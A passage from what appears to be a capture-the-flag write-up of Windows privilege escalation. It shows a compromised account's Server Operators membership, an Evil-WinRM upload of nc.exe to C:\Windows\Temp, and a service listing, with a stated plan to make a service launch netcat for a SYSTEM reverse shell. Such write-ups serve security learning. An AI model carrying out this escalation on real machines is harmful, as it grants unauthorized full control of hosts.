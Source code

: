 ```bash
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

We are part of **Server Operators** group, which means we have control over the services running inside the machine.

If we manage to edit a service and make it execute a **netcat** to our listener we will get a shell as **nt authority\system**.

So we are going to start by uploading the **nc.exe** to **C:\Windows\Temp**:
```bash
*Evil-WinRM* PS C:\Windows\Temp> upload /home/logan/Desktop/Tools/Windows/nc.exe
Info: Uploading /home/logan/Desktop/Tools/Windows/nc.exe to C:\Windows\Temp\nc.exe


Data: 37544 bytes of 37544 bytes copied

Info: Upload successful!
```

We can now start by listing the services:
```text
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> services

Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```
